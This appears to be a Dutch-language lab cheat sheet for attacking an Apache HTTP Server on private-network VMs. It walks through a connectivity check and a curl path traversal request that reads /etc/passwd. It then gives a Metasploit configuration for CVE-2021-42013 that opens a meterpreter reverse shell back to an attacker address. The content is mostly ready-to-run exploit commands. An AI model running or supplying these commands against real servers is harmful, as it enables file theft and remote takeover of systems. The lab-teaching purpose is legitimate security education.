 # Cheat sheet aanval van Apache HTTP server path traversal

Voor het uitvoeren van de aanval van Apache HTTP server path traversal zijn de volgende stappen nodig:

Stap 1: Contolleer of de VM's met elkaar kunnen communiceren

```bash
ping <ip-van-de-server>
PING 192.168.0.254 (192.168.0.254) 56(84) bytes of data.
64 bytes from 192.168.0.254: icmp_seq=1 ttl=64 time=3.43 ms
64 bytes from 192.168.0.254: icmp_seq=2 ttl=64 time=0.419 ms
64 bytes from 192.168.0.254: icmp_seq=3 ttl=64 time=0.423 ms
```

Stap 2: Controleer of de Apache HTTP server draait op de server

Surf van de Kallio VM naar de Apache HTTP server VM en controleer of de server draait. Dit kan gedaan worden door in de browser het IP adres van de server in te voeren. Als de server draait, zou je een welkomstpagina moeten zien.

![Site zichtbaar](img/cybersecuritysite.png)

Stap 3: Path Traversal aanval uitvoeren

Gebruik de volgende curl command om de path traversal aanval uit te voeren:

```bash
curl -v --path-as-is http://192.168.0.145:80/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

Als je deze command uitvoert, zou je de inhoud van het bestand /etc/passwd moeten zien. Dit bestand bevat informatie over de gebruikers op het systeem.

Metasploitable gebruiken:

```bash
msfconsole
```

```bash
use exploit/multi/http/apache_normalize_path_rce
```

```bash
set RHOSTS 192.168.0.134
set RPORT 80
set SSL false
set TARGETURI /cgi-bin
set CVE CVE-2021-42013
set LHOST 192.168.0.251
set LPORT 4444
set PAYLOAD linux/x64/meterpreter/reverse_tcp
```

```bash
run
```